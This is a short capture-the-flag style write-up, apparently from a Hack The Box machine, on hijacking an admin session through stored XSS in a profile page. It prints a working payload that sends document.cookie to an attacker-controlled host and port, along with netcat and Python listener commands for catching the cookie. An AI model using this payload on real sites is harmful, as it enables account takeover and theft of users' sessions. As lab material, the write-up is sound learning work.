 # Session Hijacking // Stored XSS

HTTP is stateless; this means that each request will be executed independently without any information about previously executed requests. This means you will have to re-enter your username and password for any page you view. Therefore, developers need to create a way for you to monitor the status between multiple connections from the same user, rather than requiring them to re-authenticate after every click on a web app. This method is called session.



## What is Session Hijacking ?

Generally, in web-based exploits, our goal is to capture a user more authorized than us. In practice, we will try to get a new session using the xss vulnerability. Since websites store our information through cookies, our goal will be to get the documentcookie code. Documentcookie is the cookie of the admin account in the system.

> ```
> Tried on a box on Hackthebox platform.
> ```



## Xss Detection

I will try to add java script code with \<script> tag to one of the information that will be permanently on our page. If html tags work on user inputs, that is, if html tags are not filtered, I should be able to use script tags. Let's jump in.

<img src="/root/.config/Typora/typora-user-images/image-20210620073656881.png" alt="image-20210620073656881" style="zoom:67%;" />





<img src="/root/.config/Typora/typora-user-images/image-20210620074121907.png" alt="image-20210620074121907" style="zoom:67%;" />



The alert function opens a window and writes the data you want. If this code works, we will be able to receive cookies from every person who enters the page. Because the code we wrote will work for everyone. It will be located in the source code of our profile page.

![image-20210620074441310](/root/.config/Typora/typora-user-images/image-20210620074441310.png)

### Payload

~~~javascript
```
<script> document.location= "http://10.10.14.x:8000/index.php?c=" + document.cookie; </script>
```
~~~

   

We changed the code like this and injected it into our page. Then, when the cookie is sent to us, we need to listen to our port in order to catch it. What we need to do now is to wait for a qualified user to enter our profile. You can use both;

~~~python
```
python3 -m http.server 8000
python2 -m SimpleHttpServer 8000
```
~~~

~~~bash
```
nc -nlvp 8000
```
~~~

Now all we have to do is wait. Using the following cookie.

![image-20210620075725989](/root/.config/Typora/typora-user-images/image-20210620075725989.png)



![image-20210620075824891](/root/.config/Typora/typora-user-images/image-20210620075824891.png)

![image-20210620075840220](/root/.config/Typora/typora-user-images/image-20210620075840220.png)



## Session has been stolen!

